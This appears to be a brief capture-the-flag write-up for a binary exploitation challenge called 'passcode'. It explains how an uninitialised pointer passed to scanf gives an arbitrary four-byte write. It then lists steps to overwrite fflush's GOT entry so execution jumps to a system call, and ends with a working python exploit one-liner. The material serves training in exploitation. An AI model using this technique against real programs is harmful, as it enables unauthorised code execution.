 - scanf is using the pointer in the passcode1 and passcode2 to write
bytes 96 to 100 of user are in the passcode1

- we can write what we want (4 bytes (int)) wherever we want (on the first scanf)

- get got table from readelf -a passcode
- check fflush address (0x0804a004) and overwrite with the instruction before system (0x80485e3 ->134514147)

```
python -c "print 'A'*96+'\x04\xa0\x04\x08\n'+'134514147\n'+'a\n'" | ./passcode
```